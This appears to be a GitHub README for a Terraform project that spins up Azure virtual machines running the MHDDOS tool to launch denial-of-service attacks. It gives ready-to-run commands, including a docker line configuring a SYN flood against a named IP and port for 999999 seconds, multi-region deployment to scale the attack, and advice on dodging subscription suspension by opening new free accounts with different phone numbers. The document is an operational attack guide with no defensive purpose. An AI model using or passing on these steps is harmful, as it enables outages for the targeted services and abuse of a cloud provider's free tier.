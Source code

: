 # Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 2 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file, to customize through terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. To install these tools check out the following guides:
- Azure CLI https://docs.microsoft.com/en-us/cli/azure/install-azure-cli
- Terraform https://learn.hashicorp.com/tutorials/terraform/install-cli

In general, `udp/tcp/dns` mhddos attacks
are network intensive so your free subscription will be suspended after around 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started

1. Log in Azure
```shell
az login
```
2. Initialize terraform
```shell
terraform init
```
2. Select target and type of attack by changing in `cloud-init.yaml` the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` command is static and mustn't be changed. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here syn 15.61.23.9:53 100 999999 is your attack configuration that fully compliant with original MHDDOS
```
3. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia"
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea"
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan"
```
4. Verify after a couple of minutes on azure portal the load of VMs' CPUs. It must be around 100%
5. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate
terraform destroy -state korea.tfstate 
terraform destroy -state japan.tfstate 
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Find out the target VM's public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
2. Export a private key to the file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > key.pem
```
3. Add a read access to the key file:
```shell
chmod 400 key.pem
```
4. Connect via SSH:
```shell
ssh -i key.pem azureuser@<your_vm_IP>
```
5. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```